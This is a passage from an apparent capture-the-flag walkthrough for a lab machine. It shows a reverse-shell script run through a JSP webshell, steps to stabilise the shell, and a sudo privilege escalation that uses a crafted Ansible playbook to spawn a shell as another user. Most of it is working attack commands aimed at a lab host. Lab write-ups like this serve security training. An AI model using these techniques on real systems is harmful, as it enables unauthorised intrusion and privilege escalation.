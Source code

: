 After the script has been downloaded, we'll run it on the victim machine using `bash`:

```plaintext
curl -s 'http://back.thm:8080/webshell/index.jsp?cmd=bash+/tmp/shell.sh'
```

Checking back to our Netcat listener, we should have a connection from the victim machine:

![b6e05913ab62b3560396eb4a582ceaf9.png](/resources/220dba2c1f4d44cd9a2cc04f17742abe.png)

Let's stablize our new shell:

1. Use Python to spawn a stable shell:

   ```sh
   python3 -c 'import pty;pty.spawn("/bin/bash")'
   ```

2. `CTRL+Z` to background the current shell

3. Fix echoing and foregrounds the shell:

   ```sh
   stty raw -echo;fg
   ```

4. Set terminal to use 256 colors:

   ```sh
   export TERM=xterm-256color
   ```

# Privilege Escalation

### \[-] wilbur\@Backtrack

Running `sudo -l` we'll find that we are able to run any [Ansible playbook](https://docs.ansible.com/ansible/latest/playbook_guide/playbooks_intro.html) indicated by `/opt/test_playbooks/*.yml` as the user `wilbur`:

![1004c9a02556b18072f876f345540528.png](/resources/1365ae186d6e4f5f9ddac43a5b0fc8ea.png)

We can use this method from GTFObins to spawn a shell as `wilbur`. First we'll change our directory to `/opt/test_playbook/` then create a playbook named `shell.yml` in the `/tmp/` directory:

```plaintext
cd /opt/test_playbook/
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' > /tmp/shell.yml
```

After creating the file, we need to give it world permissions using `chmod`:

```plaintext
chmod 777 /tmp/shell.yml
```

When we run the playbook using `sudo` as `wilbur` there will be some warning messages, but eventually we will get a shell as `wilbur`:
